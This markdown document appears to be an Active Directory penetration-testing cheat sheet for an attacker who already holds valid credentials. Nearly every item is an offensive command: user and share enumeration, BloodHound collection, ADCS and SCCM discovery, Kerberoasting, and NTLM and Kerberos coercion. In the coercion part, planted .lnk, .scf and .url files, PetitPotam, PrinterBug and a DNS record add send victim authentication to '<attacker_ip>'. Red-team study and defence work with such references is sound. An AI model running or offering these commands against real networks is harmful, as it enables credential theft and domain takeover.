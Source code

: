 # Valid Credentials (cleartext creds, nt hash, kerberos ticket)

## Classic Enumeration (users, shares, ACL, delegation, ...)

- Find all users >>> Username
  - `GetADUsers.py -all -dc-ip <dc_ip> <domain>/<username>`
  - `nxc smb <dc_ip> -u '<user>' -p '<password>' --users`
- Enumerate SMB share >>> Scroll shares
  - `nxc smb <ip_range> -u '<user>' -p '<password>' -M spider_plus`
  - `nxc smb <ip_range> -u '<user>' -p '<password>' --shares [--get-file \\<filename> <filename>] `
  - `manspider <ip_range> -c passw -e <file extensions> -d <domain> -u <user> -p <password>`
- Bloodhound Legacy >>> ACL || Delegation || Username
  - `bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all`
  - `rusthound -d <domain_to_enum> -u '<user>@<domain>' -p '<password>' -o <outfile.zip> -z`
  - `import-module sharphound.ps1;invoke-bloodhound -collectionmethod all -domain <domain>`
  - `sharphound.exe -c all -d <domain>`
- Bloodhound-ce >>> ACL || Delegation || Username
  - `bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all`
  - `rusthound-ce -d <domain_to_enum> -u '<user>@<domain>' -p '<password>' -o <outfile.zip> -z --ldap-filter=(objectGuid=*)`
  - `sharphound.exe -c all -d <domain>`
  - `SOAPHound.exe -c c:\temp\cache.txt --bhdump -o c:\temp\bloodhound-output --autosplit --threshold 900`
- Enumerate Ldap >>> ACL || Delegation || Username
  - `ldeep ldap -u <users> -p '<password>' -d <domain> -s ldap://<dc_ip> all <backup_folder>`
  - `ldapdomaindump.py -u <user> -p <password> -o <dump_folder> ldap://<dc_ip>:389`
  - `ldapsearch-ad.py -l <dc_ip> -d <domain> -u <user> -p '<password>' -o <output.log> -t all`
- Enumerate DNS >>> New targets (low hanging fruit)
  - `adidnsdump -u <domain>\\<user> -p "<password>" --print-zones <dc_ip>`

## Enumerate ADCS >>> ADCS Exploitation
- `certify.exe find`
- `certipy find -u <user>@<domain> -p '<password>' -dc-ip <dc_ip>`

## Enumerate SCCM >>> SCCM Exploitation
- `sccmhunter.py find -u <user> -p <password> -d <domain> -dc-ip <dc_ip> -debug`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> sccm`
- `SharpSCCM.exe local site-info`

## Scan Auto
- from BH result
  - `AD-miner -c -cf Report -u <neo4j_username> -p <neo4j_password>`
- `PingCastle.exe --healthcheck --server <domain>`
- `Import-Module .\adPEAS.ps1; Invoke-adPEAS -Domain '<domain>' -Server '<dc_fqdn>'`

## Kerberoasting >>> Hash TGS
- `MATCH (u:User {hasspn:true})) RETURN u`
- `GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>`
- `Rubeus.exe kerberoast`

## Coerce
- Drop file
  - .lnk
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M slinky -o NAME=<filename> SERVER=<attacker_ip>`
  - .scf
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M sucffy -o NAME=<filename> SERVER=<attacker_ip>`
  - .url
    - `[InternetShortcut]... IconFile=\\<attacker_ip>\%USERNAME%.icon`
  - Other files
    - `ntlm_theft.py -g all -s <your_ip> -f test`
- Webdav
  - Enable webclient
    - .searchConnector-ms
      - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M drop-sc`
  - add attack computer in dns
    - `dnstool.py -u <domain>\<user> -p <pass> --record <attack_name> --action add --data <ip_attacker> <dc_ip>`
  - Launch coerce with <attacker_hostname>@80/x as target >>> HTTP Coerce
- RPC call >>> SMB NTLM Coerce
  - `printerbug.py <domain>/<username>:<password>@<printer_ip> <listener_ip>`
  - `petitpotam.py -d <domain> -u <user> -p <password> <listnerer_ip> <target_ip>`
  - `coercer.py -d <domain> -u <user> -p <password> -t <target> -l <attacker_ip>`
- Coerce kerberos >>> SMB Kerberos coerce
  - `dnstool.py -u "<domain>\<user>" -p '<password>' -d "<attacker_ip>" --action add "<dns_server_ip>" -r "<servername>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" --tcp`
    - `petitpotam.py -u '<user>' -p '<password>' -d <domain> '<servername>1UWh...' <target>`

## Intra ID Connect
- Find MSOL
  - `nxc ldap <dc_ip> -u '<user>' -p '<password>' -M get-desc-users |grep -i MSOL`

## Can Connect to a computer >>> Lateral move

## Exploit >>> know vulnerabilities